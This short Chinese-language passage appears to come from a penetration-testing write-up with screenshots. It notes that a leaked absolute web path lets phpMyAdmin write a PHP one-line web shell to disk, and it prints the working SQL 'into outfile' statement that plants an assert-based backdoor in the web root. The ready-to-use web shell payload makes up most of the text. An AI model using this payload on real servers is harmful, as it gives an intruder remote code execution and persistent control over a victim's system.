 ![upload successful](./images/pasted-919.png)

这里面显示了web服务的绝对路径，可以配合phpmyadmin执行sql语句写入一句话木马
![upload successful](./images/pasted-920.png)

```sql
select '<?php @assert($_REQUEST[\"shell\"]); ?>' into outfile \"C:/wamp/www/shell.php\"
```
